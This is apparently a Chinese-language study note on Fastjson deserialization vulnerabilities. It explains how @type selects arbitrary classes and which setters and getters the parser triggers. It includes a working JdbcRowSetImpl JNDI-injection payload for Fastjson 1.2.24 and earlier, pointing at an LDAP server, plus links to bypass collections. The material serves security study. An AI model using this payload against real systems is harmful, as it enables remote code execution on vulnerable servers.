



## parse()与parseObject()

使用 `JSON.parse(jsonString)` 和 `JSON.parseObject(jsonString, Target.class)`，两者调用链一致，前者会在 **jsonString** 中解析字符串获取 `@type` 指定的类，后者则会直接使用参数中的class。

## setter/getter 的触发条件

- `JSON.parseObject(jsonString,Target.class)`形式即指定class时，调用反序列化得到的类的构造函数、JSON里面的**指定**属性的`setter()`方法、**特殊**的`getter()`；

- `JSON.parse(jsonString)`同上（调用链一样）
- `JSON.parseObject(jsonString)`形式即未指定class时，会调用反序列化得到的类的构造函数、JSON里面的**指定**属性的`setter()`方法，**所有**属性的`getter()`方法，无视访问修饰符；

满足条件的setter：

- 函数名长度大于4
- 以set开头
- 非静态函数
- 返回类型为void或当前类
- 参数个数为1个

**特殊**的getter：

- 函数名长度大于等于4
- 非静态函数
- 以get开头且第4个字母为大写
- 无参数
- 返回值类型继承自Collection \|\| Map \|\| AtomicBoolean \|\| AtomicInteger \|\| AtomicLong
- 属性为私有属性，此属性没有`setter()`

## 小结

- @type可以指定反序列化成服务器上的任意类
- 然后服务端会解析这个类，提取出这个类中符合要求的setter方法与getter方法（如setxxx）
- 如果传入json字符串的键值中存在这个值（如xxx)，就会去调用执行对应的setter、getter方法（即setxxx方法、getxxx方法）

## <=1.2.24 JNDI注入利用链

三种反序列化形式均可：

```java
parse(jsonStr)
parseObject(jsonStr)
parseObject(jsonStr,Object.class)
```

JDK版本限制同JNDI注入限制。

**payload**:

```json
{
	"@type":"com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName":"ldap://127.0.0.1:1389/xxx",
	"autoCommit":true
}
```

json解析后，等同于：

```java
JdbcRowSetImpl JdbcRowSetImpl_inc = new JdbcRowSetImpl();
dbcRowSetImpl_inc.setDataSourceName("ldap://127.0.0.1:1389/xxx");
JdbcRowSetImpl_inc.setAutoCommit(true);
```





## <=1.2.24 JDK1.7 TemplatesImpl


## 后续 

@su18 [fastjson：我一路向北，离开有你的季节](https://su18.org/post/fastjson/)

@safe6Sec **[Fastjson 姿势绕过集合](https://github.com/safe6Sec/Fastjson)**
